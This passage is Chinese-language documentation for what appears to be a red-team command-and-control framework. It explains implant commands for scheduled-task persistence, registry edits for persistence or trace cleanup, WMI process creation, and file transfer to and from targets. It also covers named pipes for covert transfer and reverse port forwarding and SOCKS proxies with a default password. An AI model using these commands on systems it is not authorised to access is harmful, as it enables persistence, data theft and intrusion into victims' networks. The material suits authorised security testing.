您可以在gui中，您可以右击对应session，点击Show Services按钮。点击后，在右侧会显示目标系统的服务信息。 

计划任务管理¶
taskschd 命令用于管理 Windows 系统的计划任务，支持创建、查询、启动、停止、删除及立即执行等操作，是实现持久化渗透的重要手段。
taskschd [子命令]
-
taskschd create：创建新计划任务 -
taskschd delete：删除指定计划任务 -
taskschd list：列出所有计划任务 -
taskschd query：查询计划任务配置 -
taskschd run：立即执行计划任务 -
taskschd start：启动计划任务 -
taskschd stop：停止运行中的计划任务
taskschd create¶
创建新计划任务，可指定任务名称、执行路径、触发类型及启动时间等参数。
taskschd create [flags]
创建一个每日 9 点执行系统检查的计划任务：
taskschd create --name "DailySystemCheck" --path "C:\Windows\system32\check.exe" --trigger_type Daily --start_boundary "2023-10-10T09:00:00"
选项说明：
- --name string：计划任务名称（必填），取值为自定义名称（如 "DailySystemCheck"）
-
--path string：可执行文件路径（必填），取值为任务关联的程序路径（如C:\path\to\script.exe） -
--trigger_type string：触发类型，取值包括Daily（每日）、Weekly（每周）、Monthly（每月）等 -
--start_boundary string：启动时间点，格式为YYYY-MM-DDTHH:MM:SS（如 "2023-10-10T09:00:00"）
taskschd delete¶
删除指定的计划任务，从系统中移除任务配置。
taskschd delete [任务名称]
示例：
删除名为 "DailySystemCheck" 的计划任务：
taskschd delete DailySystemCheck
taskschd list¶
列出系统中所有计划任务的基本信息，包括任务名称、状态、触发方式等。
taskschd list
示例：
查看所有计划任务（包含系统默认任务如 "WindowsUpdate" 等）：
taskschd list
taskschd query¶
查询指定计划任务的详细配置，包括执行路径、触发条件、运行状态等。
taskschd query [任务名称]
示例：
查询 "WindowsUpdate" 计划任务的配置：
taskschd query WindowsUpdate
taskschd run¶
立即执行指定的计划任务，无需等待触发时间。
taskschd run [任务名称]
示例：
立即执行 "DailySystemCheck" 计划任务：
taskschd run DailySystemCheck
taskschd start¶
启动计划任务，使其按配置的触发条件运行。
taskschd start [任务名称]
示例：
启动 "WeeklyBackup" 计划任务：
taskschd start WeeklyBackup
taskschd stop¶
停止正在运行的计划任务，终止其当前执行过程。
taskschd stop [任务名称]
示例：
停止正在运行的 "DailySystemCheck" 计划任务：
taskschd stop DailySystemCheck
WMI 操作¶
WMI 查询与执行¶
通过WMI（Windows Management Instrumentation）接口与目标系统交互。
WMI 查询¶
wmi_query [flags]
选项:
-
--namespace string: WMI命名空间（如 root\cimv2） -
--args strings: WMI查询参数
示例:
wmi_query --namespace root\\cimv2 --args "SELECT * FROM Win32_Process"
WMI 方法执行¶
wmi_execute [flags]
选项:
-
--namespace string: WMI命名空间（如 root\cimv2） -
--class_name string: WMI类名 -
--method_name string: WMI方法名 -
--params strings: WMI方法参数
示例:
# 执行WMI方法创建进程
wmi_execute --namespace root\\cimv2 --class_name Win32_Process --method_name Create --params CommandLine="notepad.exe"
注册表操作¶
reg 命令用于管理 Windows 系统注册表，支持查询、添加、删除注册表项，以及列出子项和值等操作，可用于配置修改、痕迹清理或持久化设置。
reg [子命令]
-
reg add：添加或修改注册表项 -
reg delete：删除指定注册表项 -
reg list_key：列出注册表路径下的所有子项 -
reg list_value：列出注册表路径下的所有值 -
reg query：查询指定注册表项的值
reg add¶
添加新的注册表项或修改已有项，支持 REG_SZ（字符串）、REG_BINARY（二进制）、REG_DWORD（32位整数）、REG_QWORD（64位整数）四种值类型。
reg add [注册表路径] [flags]
示例：
1. 添加 32 位整数类型的注册表项（用于启用某功能）：
reg add HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies -v EnableFeature -t REG_DWORD -d 1
reg add HKEY_CURRENT_USER\\Software\\CustomApp -v InstallPath -t REG_SZ -d "C:\\Program Files\\CustomApp"
reg add HKEY_LOCAL_MACHINE\\SOFTWARE\\SecureData -v EncKey -t REG_BINARY -d 0A1B2C3D4E5F
选项说明：
- -v, --value string：注册表项的“值名称”（必填），如 EnableFeature、InstallPath
-
-t, --type string：值类型（默认REG_SZ），取值包括REG_SZ（字符串）、REG_BINARY（二进制）、REG_DWORD（32位整数）、REG_QWORD（64位整数） -
-d, --data string：注册表项的“值数据”（必填），需与值类型匹配（如REG_DWORD类型填数字1，REG_BINARY类型填十六进制字符串0A1B）
reg delete¶
删除指定的注册表项，包括其关联的值数据（需注意：删除系统关键项可能导致系统异常）。
reg delete [注册表路径] [项名称]
示例：
删除自定义应用的注册表配置项：
reg delete HKEY_CURRENT_USER\\Software\\CustomApp InstallPath
reg list_key¶
列出指定注册表路径下的所有子项，了解该路径下的层级结构。
reg list_key [注册表路径]
示例：
查看 Windows 策略相关的注册表子项：
reg list_key HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies
reg list_value¶
列出指定注册表路径下的所有“值名称”和对应的数据，快速掌握该路径下的配置信息。
reg list_value [注册表路径]
示例：
查看当前用户自定义应用的所有注册表配置值：
reg list_value HKEY_CURRENT_USER\\Software\\CustomApp
reg query¶
查询指定注册表项的详细信息，包括值类型和值数据，验证配置是否生效。
reg query [注册表路径] [项名称]
示例：
查询 Windows 更新服务的注册表配置：
reg query HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\wuauserv Start
Start 是注册表项的“值名称”，用于控制服务启动类型，返回的 REG_DWORD 类型数据 2 代表“自动启动”，3 代表“手动启动”）
文件操作¶
基础文件操作¶
对目标系统的文件与目录进行管理。
列出目录¶
ls [path]
示例:
ls /tmp
切换目录¶
cd
显示当前目录¶
pwd
创建目录¶
mkdir [path]
示例:
mkdir /tmp
复制文件¶
cp [source] [target]
示例:
cp /tmp/file.txt /tmp/file2.txt
移动文件¶
mv [source] [target]
示例:
mv /tmp/file.txt /tmp/file2.txt
删除文件¶
rm [file]
示例:
rm /tmp/file.txt
查看文件内容¶
cat [implant_file]
示例:
cat file.txt
修改文件权限¶
chmod [file] [mode]
示例:
chmod ./file.txt 644
修改文件所有者¶
chown [file] [user] [flags]
选项:
-
-g, --gid string: 组ID -
-r, --recursive: 递归修改子目录与文件
示例:
chown user ./file.txt
文件传输¶
在本地与目标系统之间传输文件。
上传文件¶
upload [local] [remote] [flags]
选项:
-
--hidden: 上传后将文件设置为隐藏属性 -
--priv string: 文件权限（默认0644，适用于类Unix系统）
示例:
upload ./file.txt /tmp/file.txt
下载文件¶
download [implant_file]
示例:
download ./file.txt
在gui中，左侧显示栏显示了Remote Files，是当前会话上的远程文件夹和远程文件显示。

你可以右击一个文件夹，上传文件或者刷新文件。

也可以右击一个文件，删除文件或下载该文件。

命名管道管理¶
pipe 命令用于管理 Windows 系统的命名管道（Named Pipes），支持从管道读取数据、向管道上传文件内容等操作，可用于进程间通信（IPC）或隐蔽数据传输。
pipe [子命令]
-
pipe read：从指定命名管道读取数据 -
pipe upload：将文件内容上传到指定命名管道
pipe read¶
从目标系统的指定命名管道中读取数据，获取管道内传输的内容（如进程间交互数据、日志信息等）。 命令格式：
pipe read [管道名称]
示例：
读取系统中名为 \\.\pipe\test_pipe 的命名管道数据：
pipe read \\.\pipe\test_pipe
pipe upload¶
将目标系统中指定文件的内容，上传到命名管道中，供监听该管道的进程读取（如实现隐蔽数据共享、进程间数据投喂等场景）。
pipe upload [管道名称] [文件路径]
示例：
将 C:\Temp\data.bin 文件的内容上传到 \\.\pipe\test_pipe 命名管道：
pipe upload \\.\pipe\test_pipe C:\\Temp\\data.bin
网络代理¶
通过Implant转发网络流量，实现间接访问目标网络资源。在IoM中，绝大部分网络相关功能都基于rem实现。
rem指南
有关rem的实现，请参阅Rem
端口转发¶
本地端口转发¶
portfwd [pipeline] [flags]
选项:
-
-p, --port string: 本地监听端口 -
-t, --target string: 远程目标地址（格式：host:port）
示例:
portfwd tcp --port 8080 --target 192.168.1.1:80
本地端口转发（本地模式）¶
portfwd_local [pipeline] [agent] [flags]
选项:
-
-l, --local string: 本地连接地址（格式：host:port） -
-p, --port string: 本地监听端口
示例:
portfwd_local rdp_local win10_agent --port 3389 --local 127.0.0.1:3389
反向端口转发¶
通过Implant从远程目标创建反向连接到本地，实现穿透防火墙。
反向端口转发¶
reverse [pipeline] [flags]
选项:
-
--password string: 认证密码（默认maliceofinternal） -
-p, --port string: 本地监听端口 -
--protocol string: 入站协议（默认socks5） -
-u, --username string: 认证用户名（默认maliceofinternal）
示例:
reverse rem --port 12345
远程端口转发¶
rportfwd [pipeline] [flags]
选项:
-
-p, --port string: 本地监听端口 -
-r, --remote string: Implant的连接地址（格式：host:port）
示例:
rportfwd http --port 8080 --remote 192.168.1.1:80
远程端口转发（本地模式）¶
rportfwd_local [pipeline] [agent] [flags]
选项:
-
-p, --port string: 本地监听端口 -
-r, --remote string: Implant内部连接地址（格式：host:port）
rportfwd_local tcp intranet_agent --port 33890 --remote 192.168.5.10:3389
代理服务器¶
通过Implant创建代理服务器，实现对目标网络的间接访问。
创建代理¶
proxy [pipeline] [flags]
选项:
-
--password string: 认证密码（默认maliceofinternal） -
-p, --port string: 本地监听端口 -
--protocol string: 入站协议（默认socks5） -
-u, --username string: 认证用户名（默认maliceofinternal）
示例:
proxy http --port 8080
REM 操作¶
通过REM协议在Implant上进行远程操作。
REM 协议远程连接¶
rem_dial [pipeline] [args]
示例:
rem_dial rem -- -c tcp://4n0n4k4y:@127.0.0.1:34996?wrapper=I31%2x2qb0TVNZvNy8KwixYX%2BH%2FUXkHmxJVH0yi05m2iVZehaAXq3tyJSObIkorkM0Uhzf3qmt1bNbB7Y0o2igaBWbvrLZD9%2Fi78pUGLYOPCVLVNECfC4hvncQKVVKDxQ7IywfzaHVTG6bow4tjHdtifHI1VBRX3dGNx93T5LuFjHhBqu40ZPzwdhpGrEIA9bfzVAFW8TxZa3vMqLFXV9kSSb0%2F8Cbv